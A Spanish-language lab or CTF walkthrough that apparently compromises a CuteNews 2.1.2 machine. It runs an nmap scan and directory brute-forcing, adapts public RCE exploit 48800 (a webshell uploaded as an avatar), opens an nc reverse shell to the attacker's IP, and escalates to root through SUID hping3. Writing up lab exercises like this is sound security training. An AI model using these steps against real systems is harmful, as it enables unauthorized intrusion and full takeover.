 Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 192.168.196.128 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![1](Images/1.png)


Ojo, puertos interesantes, especialmente ese 88. Vamos a escanear qué servicios y versiones están corriendo para estos puertos.

``nmap 192.168.196.128 -sCV -p -oN target``

![2](Images/2.png)

Vale, falsa alarma, ese p88 no es Kerberos. Tenemos SSH, http y pop3 (con y sin SSL).

Vamos a comenzar echando un vistazo a nivel de navegador. No se encuentra nada interesante, por lo que vamos a hacer fuerza bruta de directorios.

``feroxbuster -u http://192.168.196.128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 150 -x php,html,sh,txt, -C 400,404,500,503 -o scan80.txt``

![3](Images/3.png)

Muy interesante. Se encuentra un index.php. Si indagamos un poco, vemos:

![4](Images/4.png)

Ojo, tenemos tecnología y versión: CuteNews 2.1.2. Además, coincide parcialmente con el nombre de la máquina, por lo que parece que vamos bien.

Si buscamos exploits públicos para esta tecnología y versión, vemos:

``searchsploit cute news 2.1.2``

![5](Images/5.png)

Ojo, RCE para esta tecnología y versión. 

https://www.exploit-db.com/exploits/48800

Si echamos un vistazo al código del exploit, parece que hace básicamente lo siguiente: se registra como un usuario nuevo, sube un avatar que en realidad es una webshell en php, y después permite ejecutar comandos desde la terminal enviándolos por POST.

Vamos a probar. Nos lo traemos a nuestro directorio de trabajo.

``searchsploit -m 48800.py``

![6](Images/6.png)

Le damos permisos de ejecución:

``chmod +x 48800.py``


Antes de ejecutarlo, tenemos que fijarnos que hay rutas en el código que puede que no existan a nivel del servidor:

- IP/CuteNews/cdata/users/ no existe

![7](Images/7.png)

- Pero IP/cdata/users, sí:


![8](Images/8.png)

Y lo mismo para todas aquellas rutas que partan de IP/CuteNews (como /uploads o /index.php), por lo que modificamos el código y lo adaptamos a nuestro escenario. Es decir, borramos la parte "CuteNews" de la url, puesto que el servidor web, en este caso, no contempla esa ruta.

``nano 48800.py``

![9](Images/9.png)

![10](Images/10.png)

![11](Images/11.png)

![12](Images/12.png)



Una vez lo tenemos preparado, ejecutamos:

``python3 48800.py``

-> Introducimos la URL

![13](Images/13.png)



Y nos permite ejecutar comandos de forma remota:

![14](Images/14.png)

Para mayor estabilidad, vamos a mandarnos una revshell.

- Primero nos ponemos en escucha desde máquina atacante:
  
``nc -nlvp 4444``

- Nos mandamos reverse shell al puerto previamente levantado:

``nc 192.168.45.210 4444 -e /bin/bash``

![15](Images/15.png)


- Si revisamos el listener:

![16](Images/16.png)


Estamos dentro como www-data.

Hacemos un tratamiento de la TTY y recogemos la flag de user en /var/www:

``whoami && ip addr && cat local.txt``

![17](Images/17.png)



# PRIVESC

Se prueban diferentes escaladas básicas de Linux, pero al observar los permisos SUID en binarios, encontramos:

![18](Images/18.png)


No es común que el binario hping3 tenga permisos SUID. Vamos a echar un vistazo a GTFObins:

https://gtfobins.github.io/gtfobins/hping3/#suid

![19](Images/19.png)



``hping3``

``/bin/sh -p``

![20](Images/20.png)

Hemos escalado correctamente a root.



En /root encontramos la flag de root.

``whoami && ip addr && cat proof.txt``

![21](Images/21.png)
